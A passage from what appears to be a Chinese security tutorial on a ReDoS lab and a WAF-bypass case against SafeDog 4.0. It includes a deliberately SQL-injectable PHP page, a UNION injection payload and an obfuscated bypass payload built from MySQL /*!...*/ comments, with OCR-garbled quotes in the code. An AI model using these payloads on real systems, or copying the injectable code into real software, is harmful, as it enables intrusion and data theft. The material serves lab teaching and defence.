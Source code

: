 我们打开题目`ReDoS`，运行靶机。当我们的输入如下内容：

```plain
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab
```

系统会出现卡顿，过了一段时间后会出现匹配失败，回溯次数已用尽的提示信息。这是因为，PHP内置了正则匹配的回溯上限次数，当回溯次数超出该限制时，就会返回匹配失败。

这样的限制可以在输入检测失效的情况下，减轻ReDos对PHP应用的影响。

接下来，我们一起看一个绕WAF的实例。

### 案例二：一个绕WAF的实例

这个WAF，是最新版本的安全狗V4.0网页（APACHE）版。我们可以在谜团上打开靶场安全狗4.0。之后访问该网页的目录`inject.php`，它的代码如下：

```php
*<?php*
$id = $_GET['id'];
$con = mysql_connect(“localhost”,”root”,”root”);
*if* (!$con){*die*(‘Could not connect: ‘ . mysql_error());}
mysql_select_db(“dvwa”, $con);
$query = “SELECT first_name,last_name FROM users WHERE user_id = ‘$id’; “;
$result = mysql_query($query)*or* *die*(‘<pre>’.mysql_error().’</pre>’);
*while*($row = mysql_fetch_array($result))
{
 *echo* $row[‘0’] . “&nbsp” . $row[‘1’];
 *echo* “<br />”;
}
*echo* “<br/>”;
*echo* $query;
mysql_close($con);
*?>*
```

我们尝试使用`payload`为：

```sql
?id=1' and 1=2 union select database(),2 --+
```

会发现被安全狗拦截了，但我们对它进行修改为：

```sql
?id=1'//*!14400and*//1=2//*//*//union//*!88888cas*//*/%0a*a*//select//**//*//*//database(//*%%!AJEST%%%%*//),2//**/--+/
```

注意，其中`/*! ….*/`是MySQL为了保持兼容，它把一些特有的仅在MySQL上用的语句放在了`/*!….*/`中，目的是这些语句在其他数据库中是不会被执行，但在MySQL中会被执行。

利用这个组合，我们就能绕过WAF，成功获取到当前的数据库的名称。

既然有这么多WAF绕过方式，那么在安全实践中，WAF厂商是如何防范自己的WAF被绕过的呢？

## 安全实践：如何防范自己的WAF被绕过？

Web服务器在对外提供各种应用服务时，经常会遇到这样的情况：请求的payload经过混淆或者编码，想要绕过Web安全防火墙。如果在HTTP请求中添加编码，很可能会绕过WAF规则，导致数据泄露风险。那本应该被拦截的请求，还是得到了对应的响应数据。
